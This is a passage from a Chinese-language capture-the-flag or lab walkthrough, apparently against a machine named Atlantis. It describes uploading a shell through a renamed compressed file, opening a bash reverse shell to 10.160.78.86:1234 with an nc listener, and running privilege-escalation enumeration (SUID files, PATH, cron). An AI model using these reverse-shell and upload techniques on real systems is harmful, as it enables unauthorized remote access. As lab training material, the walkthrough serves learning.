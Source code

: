 压缩以后，修改后缀名再次上传：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609586.png" alt="image-20240322145824101" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609587.png" alt="image-20240322145849662" style="zoom:50%;" />

可以看到已经上传成功了，尝试连接一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609588.png" alt="image-20240322150100371" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609589.png" alt="image-20240322150126239" style="zoom:33%;" />

## 提权

### 弹一个反向shell

```bash
bash -c 'exec bash -i &>/dev/tcp/10.160.78.86/1234 <&1'
```

```bash
nc -lvnp 1234
```

### 搜集基础信息

```bash
tomcat@Atlantis:/$ find / -perm -u=s -type f 2>/dev/null
# find / -perm -u=s -type f 2>/dev/null
# /bin/mount
# /bin/umount
# /bin/su
# /bin/ping
# /bin/fusermount
# /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
# /usr/lib/policykit-1/polkit-agent-helper-1
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/eject/dmcrypt-get-device
# /usr/lib/openssh/ssh-keysign
# /usr/lib/snapd/snap-confine
# /usr/bin/newgrp
# /usr/bin/newgidmap
# /usr/bin/chfn
# /usr/bin/newuidmap
# /usr/bin/passwd
# /usr/bin/traceroute6.iputils
# /usr/bin/at
# /usr/bin/sudo
# /usr/bin/chsh
# /usr/bin/gpasswd
tomcat@Atlantis:/$ echo $PATH
# echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
tomcat@Atlantis:/$ cat /etc/cron* 
# cat /etc/cron*
# cat: /etc/cron.d: Is a directory
# cat: /etc/cron.daily: Is a directory
# cat: /etc/cron.hourly: Is a directory
# cat: /etc/cron.monthly: Is a directory
# cat: /etc/cron.weekly: Is a directory
# # /etc/crontab: system-wide crontab
# # Unlike any other crontab you don't have to run the `crontab'
# # command to install the new version when you edit this file
# # and files in /etc/cron.d. These files also have username fields,
# # that none of the other crontabs do.
```